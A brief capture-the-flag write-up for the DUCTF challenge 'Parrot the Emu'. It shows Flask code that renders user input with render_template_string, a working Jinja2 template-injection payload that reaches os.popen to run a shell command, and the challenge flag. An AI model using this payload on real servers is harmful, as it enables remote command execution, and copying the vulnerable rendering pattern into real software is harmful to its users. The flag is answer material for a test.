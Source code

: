 # Parrot the Emu
Solved by **XXX**

## Question
It is so nice to hear Parrot the Emu talk back.

## Solution
Analysing the `app.py` shows this website is vulnerable to **Template** injection.
```
 if request.method == 'POST':
        user_input = request.form.get('user_input')
        try:
            result = render_template_string(user_input)
        except Exception as e:
            result = str(e)
```

```
{{''.__class__.__mro__[1].__subclasses__()[207].__init__.__globals__['sys'].modules['os'].popen("cat flag").read() }}
```

### Flag
`DUCTF{PaRrOt_EmU_ReNdErS_AnYtHiNg}`
